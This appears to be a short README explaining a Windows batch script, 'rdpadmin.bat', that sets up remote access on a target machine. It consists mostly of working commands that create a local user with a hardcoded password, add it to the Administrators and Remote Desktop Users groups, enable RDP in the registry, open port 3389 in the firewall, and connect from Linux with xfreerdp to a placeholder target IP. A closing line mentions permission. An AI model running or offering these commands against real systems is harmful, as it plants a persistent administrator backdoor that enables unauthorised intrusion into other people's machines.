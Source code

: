 # rdpadmin.bat Explained
============================================================================
### Add a local user account with required password complexity
net user tester Testing123! /ADD

### Add the local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add the local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP in the registry (Sometimes this is enough, but not on new systems)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Enable RDP in the Firewall (may get message about netsh being deprecated but it should still work)
netsh firewall add portopening TCP 3389 "RDP"

============================================================================

## If you get CredSSP error when connecting (rdesktop) use freerdp
### Install:
sudo apt-get install freerdp-x11
### Connect:
xfreerdp /v:TARGETIP:3389 /u:tester


Of course, do not use this on any systems in which you do not have permission to do so.
